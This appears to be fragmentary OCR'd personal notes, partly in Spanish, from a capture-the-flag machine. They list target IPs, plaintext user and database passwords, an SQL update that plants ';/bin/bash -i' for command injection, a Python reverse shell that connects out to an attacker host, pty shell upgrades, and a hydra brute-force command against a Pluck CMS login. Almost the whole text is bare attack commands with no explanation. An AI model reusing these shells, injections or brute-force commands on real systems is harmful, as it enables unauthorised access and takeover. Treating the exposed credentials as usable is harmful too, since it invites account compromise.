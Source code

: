 10.10.216.126
22
80
	/app 
	password
	
	
	



lucien:HeyLucien#@1999!

death:!mementoMORI666!

mysql -u lucien -plucien42DBPASSWORD
0>&1

UPDATE dreams
SET dream = ';/bin/bash -i' 
WHERE dreamer = 'Alice';

psy64 > morpheus ejecuta comando cada ciertos minutos
revshell para shutil
nc una vez modificado a la espera de que morfeo ejecute

BASH HYSTORY LUCIEN

lucien:HeyLucien#@1999!

death:!mementoMORI666!

import socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.2.81.85",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

import pty
pty.spawn("bash")

python3 -c 'import pty;pty.spawn("/bin/bash")'

hydra -l <nombre_de_usuario> -P /usr/share/wordlists/rockyou.txt 10.10.61.133 http-post-form '/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:Invalid password'
